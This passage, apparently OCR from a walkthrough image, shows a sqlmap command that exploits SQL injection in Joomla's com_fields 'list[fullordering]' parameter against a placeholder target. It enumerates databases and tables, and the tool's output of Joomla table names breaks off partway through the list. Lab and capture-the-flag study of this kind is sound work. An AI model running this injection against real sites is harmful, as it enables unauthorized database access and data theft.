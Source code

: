 sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering] -D joomla --tables

\[snip...]

atabase: joomla

\[72 tables]

\+----------------------------+

\| #\_\_assets |

\| #\_\_associations |

\| #\_\_banner\_clients |

\| #\_\_banner\_tracks |

\| #\_\_banners |

\| #\_\_categories |

\| #\_\_contact\_details |

\| #\_\_content\_frontpage |

\| #\_\_content\_rating |

\| #\_\_content\_types |

\| #\_\_content |

\| #\_\_contentitem\_tag\_map |

\| #\_\_core\_log\_searches |

\| #\_\_extensions |

\| #\_\_fields\_categories |

\| #\_\_fields\_groups |

\| #\_\_fields\_values |

\| #\_\_fields |

\| #\_\_finder\_filters |

\| #\_\_finder\_links\_terms0 |

\| #\_\_finder\_links\_terms1 |

\| #\_\_finder\_links\_terms2 |

\| #\_\_finder\_links\_terms3 |

\| #\_\_finder\_links\_terms4 |

\| #\_\_finder\_links\_terms5 |

\| #\_\_finder\_links\_terms6 |

\| #\_\_finder\_links\_terms7 |

